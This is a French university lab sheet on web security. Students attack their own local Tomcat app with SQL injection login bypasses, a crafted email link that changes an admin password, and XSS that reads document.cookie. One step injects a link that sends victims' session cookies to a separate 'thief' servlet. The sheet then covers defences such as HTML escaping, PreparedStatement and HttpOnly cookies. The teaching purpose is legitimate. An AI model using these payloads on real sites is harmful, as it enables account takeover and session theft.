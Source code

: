 
# Sécurité des sites web

**Objectifs :**
- Comprendre les principes de base et savoir se protéger contre l'injection XSS et l'injection SQL

**Avertissement**  
TESTER LA VULNÉRABILITÉ D'UN SITE QUI N'EST PAS LE VÔTRE EST ILLEGAL  
NE RÉALISEZ CES EXERCICES QUE SUR VOS PROPRES SITES

## Préambule
Afin de pouvoir effectuer des tests de "piratage" interessants, il est nécessaire d'avoir une application qui nécessite une authentification
et une gestion de rôles, qui permet de saisir des données et d'afficher d'une manière ou d'une autre les données saisies. C'est le cas à l'issue de l'exercice précédant.

### Déploiement
1. Tomcat arrêté, récupérer et décompresser le fichier tp37.zip
1. Quelle commande Unix permet de savoir dans quelles pages sont réalisées les connexions ?
1. Quelle commande Unix permet de remplacer le nom de l'utilisateur par le votre ?
1. Modifiez l'ensemble des pages de manière à bien régler le driver, l'url, le login, le mot de passe nécessaires au bon fonctionnement
de ce site.
1. N'oubliez pas de créer la table et les données nécessaires (voir [data.sql](https://github.com/pmathieufr/dut_prog_web/blob/master/cours07/exercices/data.sql)) et compiler les servlets !

## Injection XSS
L'injection XSS (HTML ou Javascript) peut se faire partout où l'utilisateur saisit des données. Cela perturbera toute page qui
affichera le contenu de cette saisie, par exemple quand l'utilisateur modif
1. Saisir dans le champs login un login correct, mais sous la forme unbonlogin' or '1'='1, puis n'importe quoi dans le champs
mot de passe.  
Vous constatez que l'on se connecte sans le mot de passe en tant que l'utilisateur choisi.
1. Creez une table bidon(libelle text) avec quelques lignes dedans. Trouvez l'injection à effectuer au login pour effacer
complètement cette table par injection SQL
1. Vous êtes un nouvel utilisateur. Comment faire pour être directement inscrit à la création avec un compte admin inscrit
physiquement dans la base ?
1. Vous avez un compte sur ce site en tant que simple utilisateur. Comment modifier votre rôle pour passer de util à admin
dans la base.

## Social engineering
L'ingénierie sociale est une forme d'escroquerie utilisée en informatique pour obtenir d'autrui des informations clefs. Cette
pratique exploite les failles humaines et sociales, la crédulité des personnes possédant ce que l'on cherche à obtenir.

* L'administrateur est connecté
* Un pirate lui envoie un email en html en apparence anodin. Pour tester, envoyez vous un email contenant le texte :  
  ```html
  Peux tu jeter un oeil sur ma page perso
  <p>
  <a href=http://localhost:8080/tp37/servlet-Maj2?login=paul&mdp=toto&nom=&prenom=&adresse=>
  http://127.12.56.33/mapageperso.html</a>
  <p>
  Merci
  ```
* En tant qu'administateur paul, vous ne vous méfiez pas, et en recevant le mail, vous cliquez naïvement dessus.
* Ce faisant, paul vient de changer son mot de passe en toto, mot de passe que vous lui avez indiqué dans la partie cachée du lien.
* Le pirate peut maintenant se logger en paul/toto

## Le vol de sessions
Toutes les protections précédentes permettent d'éviter les attaques par injection les plus classiques, mais n'évitent pas pour autant
le vol de session.
Dans cet exercice nous allons voir comment se logguer sur un site en utilisant la session d'un autre utilisateur, sans saisir aucun
login ni mot de passe !
1. Nous utiliserons Chrome pour l'administrateur (ici paul/paul) et Firefox/Iceweasel pour le "voleur" (ici jean/jean)
qui est simple utilisateur. Lancez les deux et recadrez ces fenetres pour qu'elles soient côte à côte : Chromium à gauche,
Firefox à droite.
1. L'un des outils les plus pratiques pour "trafiquer" des pages HTML se nomme Firebug. Cet outil permet d'éditer, débugguer, tester CSS, HTML, et JavaScript en direct sur n'importe quelle page. Installez cet outil sur votre navigateur Firefox/Iceweasel : Outils - Modules Complémentaires - Firebug
1. Tout est maintenant prêt pour la démonstration
1. Un voleur (navigateur de droite), jean, non administrateur, injecte dans ses coordonnées (via "modifier vos infos") le code  
    ```javascript
    <script>alert(document.cookie)</script>
    ```
1. Paul (navigateur de gauche), administrateur, se connecte légalement avec son login/mdp sur le navigateur de gauche ... mais
il laisse sa session ouverte en allant boire un café :-(
1. Jean, le voleur en profite pour utiliser son navigateur et afficher la liste des coordonnées. L'affichage de cette page lui donne le JSESSIONID. Faites un copier du numéro.
1. Jean, le voleur retourne sur son navigateur Firefox qu'il lance sur la page de Menu
1. Avec Firebug (Affichage - Firebug), il va dans l'onglet cookie et modifie l'identfiant de session en mettant celui volé 1
1. Après un reload de cette page, il est maintenant connecté comme administrateur !
1. Les cookies sont accessibles coté client via les langages de Script comme Javascript. Certains navigateurs refusent cet accès pour les cookies avec la marque HttpOnly. Pour se protéger il faut donc toujours paramétrer son serveur avec des HttpOnly cookies.


## Industrialiser les vols de sessions
Certains pirates injectent dans les pages WEB des forums des liens permettant de voler vos cookies et les ranger dans leurs bases
de données
1. Ecrire dans vide (pas dans tp37 pour symboliser un autre serveur; celui du voleur) une servlet Voler.java qui récupere
un parametre p et le range dans une table numsessions(p text).
1. Injecter dans le site (page "Modifiez vos infos") le code suivant dans le champs adresse 2 :  
    ```html
    <a href="#" onclick="window.location=''http://mamachine:8080/vide/servlet-Voler?p=''+
    escape(document.cookie)">Cliquer ici!</a>
    ```
1. Demandez maintenant à vos voisins d'afficher cette page et de cliquer sur le lien
1. A chaque click d'un utilisateur, son numéro de session vient remplir votre table de sessions volées. Il ne vous reste plus qu'à laisser ce
piège toute la nuit, demain matin, votre BDD sera pleine de cookies tous frais ;-)

## Mise en sécurité "élémentaire" du site
1. Afin d'éviter l'injection XSS une technique basique et inefficace consiste à faire des replaceAll sur les chaines de caractères pour supprimer les caractères spéciaux<>'(). Testez cette approche sur le paramètre adresse.
1. Testez la saisie de Villeneuve d'Ascq dans l'adresse
1. l'API Commons-text de chez Apache et sa classe StringEscapeUtils est bien plus efficace puisqu'elle "encode" les caractères spéciaux ainsi que ceux supérieurs au code ascii 127.
  * Ecrire un programme Java simple qui saisit une chaine et affiche sa transformation avec la méthode escapeHtml4 de
la classe commons.text.StringEscapeUtils  
    ```java
    CharSequenceTranslator cst = StringEscapeUtils.ESCAPE_HTML4;  
    String translated=cst.translate(input);
    ```
  * Testez avec différentes chaines contenant des caractères spéciaux(genre `<h1>hello</h1>`)
  * Modifiez votre site en conséquence.
  * Testez la saisie de Villeneuve d'Ascq dans l'adresse
1. Afin d'évitez l'injection SQL, remplacez les Statement utilisés à partir de données saisies par des PreparedStatement
1. Restestez toutes les injections vues lors des précédents exercices

